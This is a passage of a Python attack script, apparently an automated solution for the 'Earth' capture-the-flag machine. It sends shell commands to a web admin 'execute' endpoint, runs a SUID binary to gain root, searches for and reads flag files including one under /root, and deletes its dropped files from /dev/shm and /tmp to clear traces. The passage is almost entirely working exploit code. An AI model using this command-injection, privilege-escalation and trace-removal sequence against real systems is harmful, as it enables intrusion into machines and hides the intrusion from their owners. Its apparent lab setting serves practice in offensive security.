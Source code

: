```python
            ]
            
            for cmd in setup_commands:
                response = self.session.post(execute_url, data={"command": cmd})
                self.log(f"Executed: {cmd}", "INFO")
            
            # Execute SUID binary
            exploit_cmd = "/usr/bin/reset_root"
            response = self.session.post(execute_url, data={"command": exploit_cmd})
            self.log("SUID binary executed", "SUCCESS")
            
            # Test root access
            root_test = "su root -c 'whoami'"
            # Note: This might not work directly due to interactive nature of su
            # In real scenario, would establish new shell with root privileges
            
            return True
            
        except Exception as e:
            self.log(f"SUID exploitation failed: {e}", "ERROR")
            return False
    
    def extract_flags(self):
        """Phase 7: Extract flags and sensitive data"""
        self.log("Phase 7: Flag extraction", "INFO")
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            # Find flags
            flag_commands = [
                "find / -name '*flag*' -type f 2>/dev/null",
                "cat /var/earth_web/user_flag.txt",
                "cat /root/root_flag.txt 2>/dev/null"
            ]
            
            for cmd in flag_commands:
                response = self.session.post(execute_url, data={"command": cmd})
                if response.text and len(response.text.strip()) > 0:
                    self.log(f"Command: {cmd}", "INFO")
                    self.log(f"Result: {response.text[:200]}", "SUCCESS")
            
            return True
            
        except Exception as e:
            self.log(f"Flag extraction failed: {e}", "ERROR")
            return False
    
    def cleanup(self):
        """Clean up exploitation artifacts"""
        self.log("Cleaning up artifacts", "INFO")
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            cleanup_commands = [
                "rm -f /dev/shm/kHgTFI5G",
                "rm -f /dev/shm/Zw7bV9U5",
                "rm -f /tmp/kcM0Wewe"
            ]
            
            for cmd in cleanup_commands:
                self.session.post(execute_url, data={"command": cmd})
```